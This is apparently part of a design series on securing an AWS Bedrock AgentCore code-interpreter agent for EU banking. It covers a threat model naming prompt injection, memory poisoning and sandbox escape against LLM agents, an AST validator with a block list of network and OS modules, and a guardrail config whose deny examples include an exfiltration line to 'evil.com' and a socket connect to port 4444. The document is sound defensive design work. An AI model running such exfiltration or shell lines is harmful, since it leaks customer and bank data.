


> Continues from [Bedrock AgentCore Code Interpreter Architecture](../19-bedrock-agentcore-code-interpreter-architecture.md), covering Security & Compliance (threat model, code validation hook, Bedrock Guardrails, IAM policy, GDPR posture) and Multi-Agent Patterns (Writer → Validator pipeline, shared memory, async execution).

## Security & Compliance

### Threat Model

| Threat Vector | Attack Description | Mitigation |
|---|---|---|
| Prompt Injection via Code Generation | Attacker embeds malicious instructions in data that cause LLM to generate harmful code | Pre-execution AST analysis + guardrails |
| Memory Poisoning | Adversarial outputs persisted to memory influence future agent behavior | Post-execution validation + human review gates |
| Data Exfiltration via Generated Code | Code attempts `requests.get()` or socket connection to external endpoint | Network disabled in sandbox; AST blocks import of network libs |
| PII Persistence | Customer PII from processed datasets leaks into long-term memory | Pre-persistence PII scan (regex + Comprehend + Macie) |
| Sandbox Escape | Runtime exploit to break container isolation | Managed AgentCore sandbox (AWS-operated gVisor); no root access |
| Cross-Session Data Leakage | Variable from Session A available in Session B | Session isolation enforced at AgentCore level; new session per conversation |
| Denial of Service via Infinite Loop | Agent generates `while True:` code causing session starvation | Hard execution timeout (300s); CPU limits |
| IAM Privilege Escalation | Code Interpreter tries to call AWS APIs with agent role | Sandbox has no AWS credentials; agent role scoped to specific APIs only |
| Replay Attack on Memory | Attacker replays a prior valid computation to pollute current analysis | Lineage node IDs are session-bound UUIDs; conflict detection prevents duplicate writes |

### Pre-Execution Code Validation Hook

```python
import ast
import re
from typing import Tuple, List

class CodeValidationHook:
    """
    MANDATORY pre-execution hook. If this returns (False, reasons),
    code NEVER executes. No exceptions. No overrides at runtime.
    """

    # Blocked Python built-ins and operations
    BLOCKED_BUILTINS = {
        '__import__', 'eval', 'exec', 'compile', 'open',
        'input', 'breakpoint', '__builtins__',
    }

    # Blocked module imports (anything touching I/O or network)
    BLOCKED_IMPORTS = {
        'os', 'sys', 'subprocess', 'socket', 'urllib', 'requests',
        'httpx', 'aiohttp', 'ftplib', 'smtplib', 'paramiko',
        'boto3', 'botocore',  # No AWS SDK access from within sandbox
        'ctypes', 'cffi', 'multiprocessing', 'threading',
        'importlib', 'pkgutil', 'zipimport',
        'pickle', 'shelve', 'marshal',  # Deserialization risks
        '__future__',
    }

    # Allowed imports whitelist (explicit allowlist, not denylist)
    ALLOWED_IMPORTS = {
        'pandas', 'numpy', 'matplotlib', 'matplotlib.pyplot', 'seaborn',
        'scipy', 'scipy.stats', 'statsmodels', 'sklearn',
        'json', 'csv', 'datetime', 'math', 'statistics',
        'collections', 'itertools', 'functools',
        'typing', 'dataclasses', 'enum',
        'hashlib', 'base64',  # For checksum computation only
        'io', 'pathlib',      # For in-memory file ops
        're', 'string',
    }

    MAX_CODE_LENGTH = 50_000  # 50KB max per code block
    MAX_NESTED_DEPTH = 10     # AST nesting depth limit

    def validate(self, code: str) -> Tuple[bool, List[str]]:
        """
        Returns (is_valid, list_of_violations)
        """
        violations = []

        # Length check
        if len(code) > self.MAX_CODE_LENGTH:
            violations.append(f"Code exceeds max length ({self.MAX_CODE_LENGTH} chars)")
            return False, violations  # Don't parse oversized code

        # Parse AST
        try:
            tree = ast.parse(code)
        except SyntaxError as e:
            violations.append(f"Syntax error: {e}")
            return False, violations

        # Walk AST for violations
        for node in ast.walk(tree):

            # Check imports
            if isinstance(node, (ast.Import, ast.ImportFrom)):
                module = (node.names[0].name if isinstance(node, ast.Import)
                         else node.module)
                if module:
                    root_module = module.split('.')[0]
                    if root_module in self.BLOCKED_IMPORTS:
                        violations.append(f"Blocked import: {module}")
                    elif root_module not in self.ALLOWED_IMPORTS:
                        violations.append(f"Non-whitelisted import: {module}")

            # Check for blocked builtins
            if isinstance(node, ast.Call):
                if isinstance(node.func, ast.Name):
                    if node.func.id in self.BLOCKED_BUILTINS:
                        violations.append(f"Blocked builtin: {node.func.id}")

            # Check for attribute access to blocked methods
            if isinstance(node, ast.Attribute):
                if node.attr in ('system', 'popen', 'spawn', 'fork', 'exec'):
                    violations.append(f"Blocked method: .{node.attr}()")

            # Check for string-based dynamic execution
            if isinstance(node, ast.Call):
                if isinstance(node.func, ast.Name) and node.func.id in ('eval', 'exec'):
                    violations.append("Dynamic code execution (eval/exec) blocked")

        # Check nesting depth
        depth = self._max_depth(tree)
        if depth > self.MAX_NESTED_DEPTH:
            violations.append(f"AST nesting depth {depth} exceeds limit {self.MAX_NESTED_DEPTH}")

        # Regex check for obfuscated patterns (base64-encoded payloads, hex strings)
        if re.search(r'\\x[0-9a-fA-F]{2}', code):
            violations.append("Hex-encoded string literals detected (potential obfuscation)")

        is_valid = len(violations) == 0
        return is_valid, violations

    def _max_depth(self, node: ast.AST, current: int = 0) -> int:
        if not isinstance(node, ast.AST):
            return current
        children = list(ast.iter_child_nodes(node))
        if not children:
            return current
        return max(self._max_depth(child, current + 1) for child in children)
```

### Bedrock Guardrails Configuration

```python
# Guardrail definition via Boto3 (also available in Terraform, see Part 4)
import boto3

bedrock = boto3.client('bedrock', region_name='eu-west-1')

guardrail_response = bedrock.create_guardrail(
    name='banking-code-interpreter-guardrail',
    description='EU banking grade guardrail for AgentCore Code Interpreter agents',

    topicPolicyConfig={
        'topicsConfig': [
            {
                'name': 'code-exfiltration',
                'definition': 'Generating code that attempts to send data to external endpoints, '
                              'access the network, or write to external storage systems.',
                'examples': [
                    'import requests; requests.post("http://evil.com", data=df)',
                    'import socket; s.connect(("10.0.0.1", 4444))',
                ],
                'type': 'DENY',
            },
            {
                'name': 'credential-injection',
                'definition': 'Embedding hardcoded credentials, API keys, passwords, '
                              'or tokens in generated code.',
                'examples': [
                    'AWS_ACCESS_KEY_ID = "AKIA..."',
                    'password = "mysecretpassword"',
                ],
                'type': 'DENY',
            },
            {
                'name': 'sandbox-escape',
                'definition': 'Generating code that attempts to escape the Python sandbox '
                              'using subprocess, ctypes, or OS-level calls.',
                'type': 'DENY',
            },
            {
                'name': 'pii-extraction',
                'definition': 'Generating code specifically designed to extract, log, '
                              'or transmit personally identifiable information.',
                'type': 'DENY',
            },
        ]
    },

    contentPolicyConfig={
        'filtersConfig': [
            {'type': 'HATE', 'inputStrength': 'HIGH', 'outputStrength': 'HIGH'},
            {'type': 'VIOLENCE', 'inputStrength': 'MEDIUM', 'outputStrength': 'HIGH'},
            {'type': 'MISCONDUCT', 'inputStrength': 'HIGH', 'outputStrength': 'HIGH'},
        ]
    },

    sensitiveInformationPolicyConfig={
        'piiEntitiesConfig': [
            {'type': 'EMAIL', 'action': 'BLOCK'},
            {'type': 'PHONE', 'action': 'ANONYMIZE'},
            {'type': 'CREDIT_DEBIT_CARD_NUMBER', 'action': 'BLOCK'},
            {'type': 'NAME', 'action': 'ANONYMIZE'},
            {'type': 'ADDRESS', 'action': 'ANONYMIZE'},
            {'type': 'AWS_ACCESS_KEY', 'action': 'BLOCK'},
            {'type': 'PASSWORD', 'action': 'BLOCK'},
        ],
        'regexesConfig': [
            {
                'name': 'iban',
                'description': 'International Bank Account Number',
                'pattern': r'[A-Z]{2}\d{2}[A-Z0-9]{4}\d{7}([A-Z0-9]?){0,16}',
                'action': 'BLOCK',
            },
            {
                'name': 'bic_swift',
                'description': 'Bank Identifier Code',
                'pattern': r'[A-Z]{6}[A-Z0-9]{2}([A-Z0-9]{3})?',
                'action': 'ANONYMIZE',
            },
        ]
    },

    blockedInputMessaging='This request contains content that violates our banking security policy.',
    blockedOutputsMessaging='The generated response has been blocked due to security policy.',

    kmsKeyId='arn:aws:kms:eu-west-1:ACCOUNT:key/KEY_ID',
)

GUARDRAIL_ID = guardrail_response['guardrailId']
GUARDRAIL_VERSION = guardrail_response['version']
```

### IAM Least-Privilege Policy Definitions

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "BedrockModelInvocation",
      "Effect": "Allow",
      "Action": [
        "bedrock:InvokeModel",
        "bedrock:InvokeModelWithResponseStream"
      ],
      "Resource": [
        "arn:aws:bedrock:eu-west-1::foundation-model/anthropic.claude-sonnet-4-20250514-v1:0",
        "arn:aws:bedrock:eu-west-1::foundation-model/amazon.titan-embed-text-v2:0"
      ]
    },
    {
      "Sid": "BedrockAgentCoreCodeInterpreter",
      "Effect": "Allow",
      "Action": [
        "bedrock-agentcore:CreateCodeInterpreterSession",
        "bedrock-agentcore:ExecuteCode",
        "bedrock-agentcore:GetCodeInterpreterSession",
        "bedrock-agentcore:DeleteCodeInterpreterSession"
      ],
      "Resource": "arn:aws:bedrock-agentcore:eu-west-1:ACCOUNT_ID:code-interpreter-session/*",
      "Condition": {
        "StringEquals": { "aws:RequestedRegion": "eu-west-1" }
      }
    },
    {
      "Sid": "BedrockGuardrailApply",
      "Effect": "Allow",
      "Action": ["bedrock:ApplyGuardrail"],
      "Resource": "arn:aws:bedrock:eu-west-1:ACCOUNT_ID:guardrail/GUARDRAIL_ID"
    },
    {
      "Sid": "AgentCoreMemoryReadWrite",
      "Effect": "Allow",
      "Action": [
        "bedrock-agentcore:GetMemory",
        "bedrock-agentcore:PutMemory",
        "bedrock-agentcore:DeleteMemory",
        "bedrock-agentcore:ListMemories"
      ],
      "Resource": "arn:aws:bedrock-agentcore:eu-west-1:ACCOUNT_ID:memory/MEMORY_ID"
    },
    {
      "Sid": "S3OutputStore",
      "Effect": "Allow",
      "Action": ["s3:PutObject", "s3:GetObject", "s3:ListBucket"],
      "Resource": [
        "arn:aws:s3:::agent-output-store-ACCOUNT_ID",
        "arn:aws:s3:::agent-output-store-ACCOUNT_ID/*"
      ],
      "Condition": {
        "StringEquals": { "s3:x-amz-server-side-encryption": "aws:kms" }
      }
    },
    {
      "Sid": "DynamoDBSessionState",
      "Effect": "Allow",
      "Action": ["dynamodb:PutItem", "dynamodb:GetItem", "dynamodb:Query", "dynamodb:UpdateItem"],
      "Resource": [
        "arn:aws:dynamodb:eu-west-1:ACCOUNT_ID:table/agent-sessions",
        "arn:aws:dynamodb:eu-west-1:ACCOUNT_ID:table/agent-sessions/index/*"
      ]
    },
    {
      "Sid": "KMSForEncryption",
      "Effect": "Allow",
      "Action": ["kms:GenerateDataKey", "kms:Decrypt", "kms:DescribeKey"],
      "Resource": "arn:aws:kms:eu-west-1:ACCOUNT_ID:key/KEY_ID",
      "Condition": {
        "StringEquals": {
          "kms:ViaService": ["s3.eu-west-1.amazonaws.com", "dynamodb.eu-west-1.amazonaws.com"]
        }
      }
    },
    {
      "Sid": "ComprehendPIIScan",
      "Effect": "Allow",
      "Action": ["comprehend:DetectPiiEntities"],
      "Resource": "*",
      "Condition": {
        "StringEquals": { "aws:RequestedRegion": "eu-west-1" }
      }
    },
    {
      "Sid": "CloudWatchAuditLogs",
      "Effect": "Allow",
      "Action": ["logs:CreateLogGroup", "logs:CreateLogStream", "logs:PutLogEvents", "logs:DescribeLogStreams"],
      "Resource": "arn:aws:logs:eu-west-1:ACCOUNT_ID:log-group:/aws/bedrock/agents/*"
    },
    {
      "Sid": "StepFunctionsHumanReview",
      "Effect": "Allow",
      "Action": ["states:StartExecution"],
      "Resource": "arn:aws:states:eu-west-1:ACCOUNT_ID:stateMachine:agent-human-review"
    },
    {
      "Sid": "ExplicitDeny",
      "Effect": "Deny",
      "Action": ["iam:*", "sts:AssumeRole", "ec2:*", "lambda:*", "s3:DeleteObject", "dynamodb:DeleteTable"],
      "Resource": "*"
    }
  ]
}
```

### GDPR Compliance Posture

| GDPR Requirement | Implementation |
|---|---|
| Data Residency (Art. 44) | All services pinned to eu-west-1 (Ireland) or eu-central-1 (Frankfurt); S3 replication disabled; no cross-region data transfer |
| Right to Erasure (Art. 17) | User data pseudonymized with reversible token; erasure triggers DynamoDB TTL deletion + S3 lifecycle expiry + OpenSearch document deletion |
| Data Minimization (Art. 5) | PII redaction before memory persistence; only analytical outputs (not raw data) stored in long-term memory |
| Auditability (Art. 30) | Complete execution trace in CloudWatch Logs with 7-year retention for regulatory-relevant computations |
| Consent Tracking | Consent token passed in request headers; validated before any PII-containing dataset is processed |
| Data Retention | DynamoDB TTL per classification: SESSION=24h, WORKING=30d, LONG_TERM=2y (non-regulatory), 7y (regulatory) |
| Breach Notification | GuardDuty anomaly alerts → SNS → incident response SLA &lt;72h |

## Multi-Agent Patterns

### Writer → Validator Pipeline

The most critical multi-agent pattern for banking: never let a single agent write AND execute code without review.



```python
from strands import Agent, tool
from strands.multi_agent import AgentPipeline

# Supervisor coordinates the pipeline
SUPERVISOR_PROMPT = """You are a banking quantitative analysis supervisor.
Your role is to:
1. Decompose complex analytical requests into well-defined computational tasks
2. Route tasks to the appropriate specialist agent (analyst_writer or validator)
3. Ensure all computations meet EU banking regulatory standards
4. Escalate to human review when computation affects regulatory capital

For each task, identify:
- Required data sources
- Computation type (risk_calculation, visualization, data_transformation, regulatory_reporting)
- Risk level (LOW, MEDIUM, HIGH, REGULATORY)
- Whether memory context from prior sessions is relevant

Always output a structured task specification, never raw code."""

WRITER_PROMPT = """You are a senior quantitative analyst at a EU bank.
You write Python code using pandas, numpy, scipy, and statsmodels for financial analysis.

STRICT RULES:
1. NEVER import: os, sys, subprocess, socket, requests, boto3, or any network library
2. NEVER use: eval(), exec(), open() for writing, __import__()
3. ALWAYS use /tmp/ for any file operations within the sandbox
4. ALWAYS include input validation at the start of your code
5. ALWAYS handle edge cases: empty DataFrames, NaN values, division by zero
6. ALWAYS add inline comments explaining the financial logic
7. NEVER hardcode any credentials, customer IDs, or PII values
8. ALWAYS include assertions for numerical sanity (e.g., assert 0 <= capital_ratio <= 1)

Your code will be reviewed by a Validator Agent before execution."""

VALIDATOR_PROMPT = """You are a code security reviewer and quantitative analyst validator.
You review Python code generated by the Writer Agent before it executes.

Evaluate the code on:
1. SECURITY: No network access, no file system escape, no dangerous imports
2. CORRECTNESS: Financial logic is sound (Basel III formulas, risk calculations)
3. ROBUSTNESS: Handles edge cases, includes assertions, validates inputs
4. EFFICIENCY: No unnecessary loops on large DataFrames (use vectorized ops)
5. COMPLIANCE: No PII in code, no hardcoded values, audit trail maintained

Output a structured review:
{
  "approved": true/false,
  "security_issues": [...],
  "logic_issues": [...],
  "efficiency_issues": [...],
  "suggested_corrections": "...",
  "risk_level": "LOW|MEDIUM|HIGH|REGULATORY"
}

If approved=false, provide specific corrections. Be decisive -- do not approve if any
security issue is present."""

class MultiAgentCodeInterpreterPipeline:
    """
    Orchestrates the Writer -> Validator -> Executor multi-agent pipeline.
    """

    def __init__(self, bedrock_client, code_interpreter_client, state_manager):
        self.bedrock = bedrock_client
        self.ci_client = code_interpreter_client
        self.state_manager = state_manager
        self.validator_hook = CodeValidationHook()
        self.pii_pipeline = PIIDetectionPipeline()
        self.memory_writer = LongTermMemoryWriter(...)

        self.supervisor = Agent(name="supervisor", system_prompt=SUPERVISOR_PROMPT, ...)
        self.writer = Agent(name="analyst_writer", system_prompt=WRITER_PROMPT, ...)
        self.validator = Agent(name="code_validator", system_prompt=VALIDATOR_PROMPT, ...)

    def execute(
        self,
        task: str,
        session_id: str,
        data_context: dict,
        max_writer_retries: int = 3,
    ) -> dict:

        # Step 1: Supervisor decomposes task
        task_spec = self.supervisor.run(
            f"Decompose this task and prepare a specification:\n{task}"
        )

        # Step 2: Retrieve relevant memory context
        memory_context = self._retrieve_memory_context(task_spec, session_id)

        # Step 3: Writer generates code (with retry loop)
        code = None
        validation_feedback = None

        for attempt in range(max_writer_retries):
            writer_prompt = self._build_writer_prompt(
                task_spec, memory_context, data_context, validation_feedback
            )
            code = self.writer.run(writer_prompt)

            # Step 4: Static validation (AST)
            is_valid, violations = self.validator_hook.validate(code)
            if not is_valid:
                validation_feedback = f"Static analysis failed: {violations}"
                continue

            # Step 5: Semantic validation (Validator Agent)
            validator_response = self.validator.run(
                f"Review this code:\n```python\n{code}\n```"
            )
            review = json.loads(validator_response)

            if review['approved']:
                break
            else:
                validation_feedback = (
                    f"Validator rejected: {review['security_issues']} "
                    f"Corrections needed: {review['suggested_corrections']}"
                )
        else:
            return {"status": "failed", "reason": "max_retries_exceeded"}

        # Step 6: Human review if regulatory
        if review.get('risk_level') == 'REGULATORY':
            return self._trigger_human_approval(code, task_spec, session_id)

        # Step 7: Execute in Code Interpreter
        execution_result = self.ci_client.execute_code(
            session_id=session_id,
            code=code,
            timeout_seconds=300,
        )

        # Step 8: Post-execution processing
        return self._post_execute(execution_result, session_id, task_spec)

    def _post_execute(self, result: dict, session_id: str, task_spec: dict) -> dict:
        output = result.get('stdout', '')
        files = result.get('files', {})

        # PII scan output
        redacted_output, pii_detected, findings = self.pii_pipeline.scan_and_redact(output)

        # Audit log -- always, regardless of outcome
        self._write_audit_log(session_id, result, pii_detected, findings)

        # Checkpoint state
        self.state_manager.checkpoint_session(
            session_id=session_id,
            turn_index=result.get('turn_index', 0),
            local_files=files,
            variable_snapshot={},  # Populated by Code Interpreter if supported
            execution_output=redacted_output,
            entities=self._extract_entities(redacted_output),
            lineage=[],
            classification=task_spec.get('classification', 'CONFIDENTIAL'),
        )

        # Memory write (gated by policy)
        self.memory_writer.write(
            session_id=session_id,
            output=redacted_output,
            output_type=task_spec.get('computation_type'),
            metadata={
                'pii_detected': pii_detected,
                'success': result.get('success', False),
                'regulatory_relevant': task_spec.get('risk_level') == 'REGULATORY',
                'classification': task_spec.get('classification', 'CONFIDENTIAL'),
            },
            lineage=self._build_lineage(session_id, result),
        )

        return {
            "status": "success",
            "output": redacted_output,
            "files": list(files.keys()),
            "pii_detected": pii_detected,
            "memory_written": True,
        }
```

### Shared Memory Across Agents

When multiple agents contribute to a shared analytical workspace (e.g., risk team and compliance team working on the same portfolio), memory write conflicts must be handled transactionally:

```python
class SharedMemoryCoordinator:
    """
    Manages concurrent memory writes from multiple agents.
    Uses DynamoDB conditional writes as optimistic concurrency control.
    """

    def atomic_update(
        self,
        memory_key: str,
        agent_id: str,
        new_value: dict,
        expected_version: int,
    ) -> bool:
        """
        Optimistic locking: write only if version matches expected.
        Returns True if write succeeded, False if conflict detected.
        """
        try:
            self.table.update_item(
                Key={'pk': f"SHARED_MEM#{memory_key}"},
                UpdateExpression="SET #val = :val, version = :new_ver, last_writer = :agent",
                ConditionExpression="version = :expected_ver",
                ExpressionAttributeNames={'#val': 'value'},
                ExpressionAttributeValues={
                    ':val': new_value,
                    ':new_ver': expected_version + 1,
                    ':agent': agent_id,
                    ':expected_ver': expected_version,
                }
            )
            return True
        except Exception as e:
            if 'ConditionalCheckFailed' in str(e):
                return False  # Conflict: caller must retry with fresh version
            raise
```

### Async Execution Model

For long-running computations (stress tests, Monte Carlo simulations), synchronous execution blocks the agent. Use async patterns with SQS + Lambda:



Trade-off: higher latency, but non-blocking for the agent. Use for simulations over 60s, batch processing, and ETL.

## Related

- [Bedrock AgentCore Code Interpreter Architecture](../19-bedrock-agentcore-code-interpreter-architecture.md) — Part 1: executive summary, logical/runtime architecture, session model, Strands integration
- [Bedrock AgentCore Code Interpreter Architecture (Part 2)](19-bedrock-agentcore-code-interpreter-architecture-part2.md) — code interpreter + memory design
- [Bedrock AgentCore Code Interpreter Architecture (Part 4)](19-bedrock-agentcore-code-interpreter-architecture-part4.md) — cost & performance optimization, implementation code + Terraform
- [Bedrock AgentCore Code Interpreter Architecture (Part 5)](19-bedrock-agentcore-code-interpreter-architecture-part5.md) — best practices, risks & trade-offs, roadmap, evaluation, ADRs
